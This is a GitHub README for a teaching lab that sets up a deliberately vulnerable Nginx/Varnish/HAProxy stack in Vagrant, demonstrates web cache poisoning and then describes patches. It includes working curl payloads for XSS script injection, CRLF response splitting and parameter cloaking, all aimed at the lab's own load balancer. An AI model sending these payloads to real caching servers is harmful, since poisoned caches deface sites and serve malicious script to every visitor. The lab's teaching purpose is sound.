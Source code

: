 # Cache Poisoning Lab

***Abioye Oyatoye***

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:

- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:

```mermaid
graph TD
    subgraph Internet[Internet]
        VC[Victim Client<br>Your Host]:::client
        AM[Attacker Machine<br>192.168.50.40]:::attacker
    end
    VC -->|HTTP Requests| LB[Load Balancer Tier<br>HAProxy<br>192.168.50.30]:::loadbalancer
    AM -->|Malicious Requests| LB
    LB --> CS[Caching Tier<br>Varnish<br>192.168.50.20]:::cache
    CS --> WS[Application Tier<br>Nginx Web Server<br>192.168.50.10]:::webserver

    classDef client fill:#f9f,stroke:#333,stroke-width:2px;
    classDef attacker fill:#fdd,stroke:#f00,stroke-width:2px;
    classDef loadbalancer fill:#bbf,stroke:#333,stroke-width:2px;
    classDef cache fill:#bfb,stroke:#333,stroke-width:2px;
    classDef webserver fill:#bfb,stroke:#333,stroke-width:2px;
```

## Prerequisites

Vagrant
VirtualBox (or another Vagrant provider)
Basic knowledge of Linux, networking, and HTTP

## Installing Vagrant on Window

Read, download and install vagrant [here](https://www.geeksforgeeks.org/what-is-vagrant/)

## SnapShot on Installing VirtualBox on Windows System

Go download VirtualBox, go to the official site virtualbox.org and download the latest version for windows.

![Alt Text](https://media.geeksforgeeks.org/wp-content/uploads/20200123114435/VirtualBox-Windows-Download.png)

Then follow the step by step guide [Here](https://www.geeksforgeeks.org/how-to-install-virtualbox-on-windows/)

## Setup Instructions

Clone the Repository:

```bash
git clone git@github.com:Abwonder/Aboiye-DevSecOps-Projects.git
cd cache-poisoning-lab
```

Start the Lab:

```bash
vagrant up
```

This provisions four VMs: web, cache, lb, and attacker.
Access the Components:
    Web Server: 192.168.50.10
    Caching Server: 192.168.50.20
    Load Balancer: 192.168.50.30 (entry point)
    Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

**Cache Key Manipulation:**

1. From the attacker VM

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=><script>alert('Hacked')</script>"
```

2. Test as victim

```bash
curl "http://192.168.50.30/dynamic.php"
```

3. HTTP Response Splitting

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a><h1>Defaced!</h1>"
```

4. Parameter Cloaking

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Normal;user=><script>alert('XSS')</script>"
```

5. Unkeyed Headers

```bash
curl -H "Host: example.com" -H "Accept-Encoding: gzip" "<http://192.168.50.30/dynamic.php?user=><h1>Poisoned</h1>"
```

## Patching Vulnerabilities

There is another whole section one fixing the vulnerabilities, the link to the repository holding the Vagrantfile with the patched vulnerabilities can be cloned from [here]()

Re-provision VMs with updated configs:

```bash
vagrant provision web
vagrant provision cache
vagrant provision lb
```

Retest attacks to verify fixes (see configuration details in the Vagrantfile) - from the link above.

Files

Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
README.md: This file.

## Learning Objectives

Understand how caching works in a web stack.
Exploit common cache poisoning techniques.
Implement mitigations like input sanitization, cache key normalization, and header validation.

## Patching Details

**Nginx:** Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
**Varnish:** Keys on headers, skips caching dynamic content, respects backend cache directives.
**HAProxy:** Rejects malformed headers and rate-limits requests.

## Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
